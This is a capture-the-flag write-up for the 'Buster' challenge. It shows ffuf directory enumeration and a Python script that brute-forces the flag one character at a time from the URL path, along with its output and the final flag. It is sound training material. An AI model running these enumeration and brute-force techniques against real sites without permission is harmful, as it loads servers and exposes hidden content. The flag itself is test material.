

# Buster

## Description

> Using dirbuster or any other brute-forcing tool isn't needed to solve the challenges of this CTF. Using these brute force tools will not help you at all, but it will result in a lot of unnecessary traffic and requests. This activity could interfere with the availability of the CTF systems and services, so please don’t do this. However, [this challenge](https://buster.ctf.zone) is the _only_ exception in the CTF. So, do your best dirbustering to solve it, and then never use that tool again.

## Solution

The challenge name and description \[strongly\] hints that we need to do some brute forcing of files/directories. Visiting the website confirms this..



If we try to visit a non-existing page, e.g. `/admin` it says `Wrong way!`

You could use many tools, e.g. `gobuster` or `burp`. I'll use `ffuf` and check for PHP/JS file extensions, filtering out responses that contain the word "Wrong" (invalid)


```bash
ffuf -c -u https://buster.ctf.zone/FUZZ -w /usr/share/wordlists/dirb/common.txt -e .php,.js -fr Wrong

.htpasswd.php           [Status: 403, Size: 281, Words: 20, Lines: 10, Duration: 27ms]
.htpasswd.js            [Status: 403, Size: 281, Words: 20, Lines: 10, Duration: 29ms]
f                       [Status: 200, Size: 1932, Words: 527, Lines: 53, Duration: 25ms]
favicon.ico             [Status: 200, Size: 15406, Words: 24, Lines: 20, Duration: 28ms]
fla                     [Status: 200, Size: 1932, Words: 527, Lines: 53, Duration: 29ms]
flag                    [Status: 200, Size: 1932, Words: 527, Lines: 53, Duration: 31ms]
images                  [Status: 301, Size: 321, Words: 20, Lines: 10, Duration: 28ms]
server-status           [Status: 403, Size: 281, Words: 20, Lines: 10, Duration: 27ms]
```


Notice that we have `/f`, `/fla`, `/flag` all showing 200 OK with the same response length. If we try to access `/flag{` it is also a 200 OK, but `/flag}` is not.

What does that tell us? The flag _is_ the path! We can brute force each character (\[0-9a-f\]) until we reach a `}`.

I used ChatGPT to make a quick PoC. The server was super slow with lots of timeouts, so some logic was needed to repeat chars where needed.


```python
import requests
import string
import urllib3
from requests.exceptions import RequestException
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

BASE = "https://buster.ctf.zone/"
FLAG_START = "flag{"
charset = "abcdef" + string.digits + "}"
flag = FLAG_START
baseline_resp = requests.get(BASE + FLAG_START + "zzz", verify=False)
baseline_content = baseline_resp.content

pos = len(flag)  # start guessing at position after "flag{"

while not flag.endswith("}"):
    print(f"Current flag: {flag}")
    i = 0
    found = False
    while not found:
        guess = flag + charset[i]
        try:
            r = requests.get(BASE + guess, verify=False)
            if r.content != baseline_content:
                flag += charset[i]
                print(
                    f"[+] Found char '{charset[i]}' at position {pos} -> {flag}")
                pos += 1
                found = True
                break  # move to next character
            else:
                print(f"[-] Wrong char '{charset[i]}' at position {pos}")
            i += 1
        except RequestException:
            print(f"[!] Request failed for char '{charset[i]}', retrying...")
            continue
    else:
        print("[-] No matching char found, stopping.")
        break

print(f"[+] Final flag: {flag}")
```


We run the script and see it working as expected.


```bash
python poc.py

Current flag: flag{
[-] Wrong char 'a' at position 5
[-] Wrong char 'b' at position 5
[-] Wrong char 'c' at position 5
[+] Found char 'd' at position 5 -> flag{d
Current flag: flag{d
[-] Wrong char 'a' at position 6
[-] Wrong char 'b' at position 6
[-] Wrong char 'c' at position 6
[-] Wrong char 'd' at position 6
[+] Found char 'e' at position 6 -> flag{de
Current flag: flag{de
[-] Wrong char 'a' at position 7
[-] Wrong char 'b' at position 7
[+] Found char 'c' at position 7 -> flag{dec
Current flag: flag{dec
[+] Found char 'a' at position 8 -> flag{deca
Current flag: flag{deca
```


Let it finish and we'll receive the flag.


```bash
[+] Found char '}' at position 37 -> flag{deca3b962fc316a6d69a7e0c2c33c7fa}
[+] Final flag: flag{deca3b962fc316a6d69a7e0c2c33c7fa}
```


Flag: `flag{deca3b962fc316a6d69a7e0c2c33c7fa}`
